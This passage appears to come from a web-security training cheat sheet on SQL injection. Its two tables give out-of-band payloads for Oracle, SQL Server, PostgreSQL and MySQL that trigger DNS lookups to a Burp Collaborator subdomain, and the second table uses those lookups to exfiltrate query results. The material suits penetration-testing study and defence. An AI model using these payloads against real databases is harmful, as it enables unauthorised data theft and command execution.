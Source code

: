 You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

|   |   |
|---|---|
|Oracle|([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:<br><br>`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`<br><br>The following technique works on fully patched Oracle installations, but requires elevated privileges:<br><br>`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`|
|Microsoft|`exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`|
|PostgreSQL|`copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`|
|MySQL|The following techniques work on Windows only:<br><br>`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`  <br>`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`|

## DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

|   |   |
|---|---|
|Oracle|`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|(SELECT YOUR-QUERY-HERE)\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`|
|Microsoft|`declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`|
|PostgreSQL|`create OR replace function f() returns void as $$   declare c text;   declare p text;   begin   SELECT into p (SELECT YOUR-QUERY-HERE);   c := 'copy (SELECT '''') to program ''nslookup '\|p\|'.BURP-COLLABORATOR-SUBDOMAIN''';   execute c;   END;   $$ language plpgsql security definer;   SELECT f();`|
|MySQL|The following technique works on Windows only:  <br>`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`|